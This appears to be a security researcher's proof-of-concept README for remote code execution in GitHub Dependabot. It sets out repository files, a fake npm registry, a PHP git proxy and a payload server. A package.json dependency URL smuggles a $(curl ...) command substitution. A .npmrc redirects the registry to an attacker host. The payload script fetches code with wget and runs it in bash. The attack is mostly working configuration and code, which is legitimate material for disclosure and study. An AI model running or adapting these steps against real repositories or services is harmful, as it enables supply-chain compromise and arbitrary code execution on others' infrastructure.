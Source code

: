 # PoC for dependabot RCE

After the preparation, you can see your dependabot result from <https://github.com/tyage/dependabot-test4/network/updates>

## Prepare GitHub registry

Add following files:

`.npmrc`
```
registry="http://registry.npmjs.org@mocos.kitchen/registry"
```

`package-lock.json`
```
{
  "name": "javascript",
  "version": "1.0.0",
  "lockfileVersion": 2,
  "requires": true,
  "dependencies": {
    "tyage-sample-package": {
      "version": "3.0.0"
    }
  }
}
```

`package.json`
```
{
  "name": "javascript",
  "version": "1.0.0",
  "main": "index.js",
  "license": "MIT",
  "private": true,
  "dependencies": {
    "package1": "git+https://github.com.mocos.kitchen/github.com/$($(curl$IFS@mocos.kitchen:3000/bash.txt))$(ps)?/github.com/tyage/tyage-sample-package.git#semver:4.0.0"
  }
}
```

`.github/dependabot.yml` (add this file after you prepared the servers!)
```
---
version: 2
updates:
  - package-ecosystem: npm
    directory: "/"
    schedule:
      interval: daily
```

## Prepare Servers

Following servers required.

1. Fake npm registry

`http://registry.npmjs.org@mocos.kitchen/registry/package1` should return this file:

```json
{
    "name": "tyage-sample-package",
    "version": "a"
}
```

2. Fake git repository

`https://github.com.mocos.kitchen/github.com/...` should run this PHP file:

```php
<?php
if (!empty($input)) {
  // proxy request to https://github.com/tyage/sample-package.git/git-upload-pack
  $url = "https://github.com/tyage/sample-package.git/git-upload-pack";
  $context = ["http" => [
    "method" => "POST",
    "header" => [ "Content-Type: application/x-git-upload-pack-request" ],
    "content" => $input
  ]];
  if (!empty($_SERVER['HTTP_GIT_PROTOCOL'])) {
    $context["http"]["header"][] = "Git-Protocol: version=2";
  }
  $result = file_get_contents($url, false, stream_context_create($context));

  header("content-type: application/x-git-upload-pack-result");
  echo $result;

} else {
  // proxy request to https://github.com/tyage/sample-package.git/info/refs?service=git-upload-pack
  $context = ["http" => [ "header" => [] ]];
  if (!empty($_SERVER['HTTP_GIT_PROTOCOL'])) {
    $context["http"]["header"][] = "Git-Protocol: version=2";
  }
  $url = "https://github.com/tyage/sample-package.git/info/refs?service=git-upload-pack";
  $result = file_get_contents($url, false, stream_context_create($context));

  header("content-type: application/x-git-upload-pack-advertisement");
  echo $result;
}
```

3. Payload server

`http://mocos.kitchen:3000/bash.txt` return this:

```bash
eval `wget mocos.kitchen:3000/payload.txt; bash payload.txt`
```

`http://mocos.kitchen:3000/payload.txt` return this:

```bash
# you can run arbitrary OS command here
echo hello world
```
